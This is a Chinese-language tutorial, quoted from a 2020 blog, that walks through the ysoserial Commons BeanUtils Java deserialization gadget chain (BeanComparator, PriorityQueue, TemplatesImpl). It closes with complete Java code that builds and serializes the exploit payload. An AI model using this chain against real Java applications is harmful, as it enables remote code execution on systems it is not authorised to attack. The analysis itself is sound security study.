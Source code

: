 # Java反序列化之Commons beanUtils

以下内容引自「大专栏」发表于 2020-03-18的「[ysoserial分析系列：一步步写Commons beanUtils利用](https://www.dazhuanlan.com/2020/03/18/5e71a8fec8f35/)」，具体内容已经是精简后的版本：

## 分析及运行环境 <a id="&#x5206;&#x6790;&#x53CA;&#x8FD0;&#x884C;&#x73AF;&#x5883;"></a>

  commons-beanutils:1.9.2，java 1.7

## TemplatesImpl <a id="TemplatesImpl"></a>

  见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)，目的是调用getOutputProperties方法。

## BeanComparator <a id="BeanComparator"></a>

![](https://xiaozhicai.github.io//images/beanutils_field.png)

  BeanComparator实现了Comparator接口，可以实现javaBean的比较。

  成员变量 String:property指定了用于对比的字段。

### compare方法 <a id="compare&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare.png)

  当对javaBean进行比较时，会自动调用compare方法 ，该方法中会获得property指定的属性。

  例如javaBean中含有成员变量String:name和int：age，若在BeanComparator中指定property为age，则将按照age的取值作为javaBean比较时的依据。

  于是可知，若被比较的javaBean为恶意TemplatesImpl，且设置BeanComparator的成员变量property为outputProperties，在调用栈中会存在TemplatesImpl.getOutputProperties可以触发恶意代码。

### 部分利用链构造与调试 <a id="&#x90E8;&#x5206;&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

![](https://xiaozhicai.github.io//images/beanutils.compare_test.png)

  接下来的构造思路，就是找到反序列化时自动调用compare方法的地方

## priorityQueue <a id="priorityQueue"></a>

![](https://xiaozhicai.github.io//images/priorityqueue.png)

  PriorityQueue是一个基于优先级的队列。优先级队列的元素默认按照其自然顺序进行排序。如果构造构造队列时提供的Comparator，则根据Comparator.compare方法进行排序。

### readObject方法 <a id="readObject&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/queue.readobject.png)

  该方法在依次对元素进行反序列化后，调用heapify\(\)进行排序。若使用了比较器，则调用siftDownUsingComparator函数进行排序。

### siftDownUsingComparator方法 <a id="siftDownUsingComparator&#x65B9;&#x6CD5;"></a>

![](https://xiaozhicai.github.io//images/sifdown.png)

  该方法调用Comparator.compare，对元素进行比较和排序。在构造队列时，如果使用BeanComparator，则将会调用到BeanComparator.compare。

### 利用链构造与调试 <a id="&#x5229;&#x7528;&#x94FE;&#x6784;&#x9020;&#x4E0E;&#x8C03;&#x8BD5;"></a>

  在上一个调用链的基础上，直接构造使用了BeanComparator的priorityQueue。并将恶意priorityQueue添加到队列中。

![](https://xiaozhicai.github.io//images/beanutils1.png)

  通过运行结果可以看到异常，不能执行到序列化操作。为了避免这个异常，我们需要现在队列中添加其他类型的元素，再通过反射修改为恶意TemplatesImpl。

  构造一个BeanComparator，设置成员变量property的取值为A，  
在priorityQueue中添加的元素要求：拥有名称为A的成员变量，且提供了访问A的方法（如getA）。

  ysoserial使用的中转为BigInteger，该类含有成员变量lowestSetBit，并提供了getLowestSetBit方法。因此设置BeanComparator的property属性为“lowestSetBit”，并向queue中添加BigInteger类型的元素，添加属性时就会调用BeanComparator.compare，按照lowestSetBit对BigInteger对象进行排序。

![](https://xiaozhicai.github.io//images/ysoserialbeanutils.png)

  在较高版本的jdk中，BigInteger的成员变量lowestSetBit即将废弃。为了更好地理解整个利用链，这里换一个中介，直接使用BeanComparator作为中介。

  BeanComparator含有成员变量property，且提供了公共方法setProperty和getProperty访问该变量。

  构造priorityQueue时，使用BeanComparator为比较器并设置property为“property”。在队列中添加的元素为BeanComparator类对象。然后通过反射修改priorityQueue的成员变量queue数组为存放恶意priorityQueue的数组。重新修改比较器的property取值为“outputProperties”。这样在反序列化后对元素排序时，将会调用TemplatesImpl.getOutputProperties，触发恶意代码。

![](https://xiaozhicai.github.io//images/beanutils3.png)

## 完整代码 <a id="&#x5B8C;&#x6574;&#x4EE3;&#x7801;"></a>

  构造含有恶意字节码的TemplatesImpl的代码见[JDK7u21分析](https://xiaozhicai.github.io/2020/02/20/jdk7u21/)

```java
TemplatesImpl maliciousTemplatesImpl = (TemplatesImpl) Generator.getTemplateImpl();
BeanComparator comparator = new BeanComparator("property");
//comparator.compare(maliciousTemplatesImpl, maliciousTemplatesImpl);
//使用BeanComparator为中介，ysoserial中使用的是BigInteger
PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
priorityQueue.add(new BeanComparator("test"));
priorityQueue.add(new BeanComparator("test"));
	
//重修修改BeanComparator的property属性
comparator.setProperty("outputProperties");

Object [] innerQueue = {maliciousTemplatesImpl,maliciousTemplatesImpl};
Class PriorityQueueClass = Class.forName("java.util.PriorityQueue");
Field queue = PriorityQueueClass.getDeclaredField("queue");
queue.setAccessible(true);
queue.set(priorityQueue, innerQueue);

String filename = "/beanUtils_payload.ser";
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
oos.writeObject(priorityQueue);
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
ois.readObject();
```



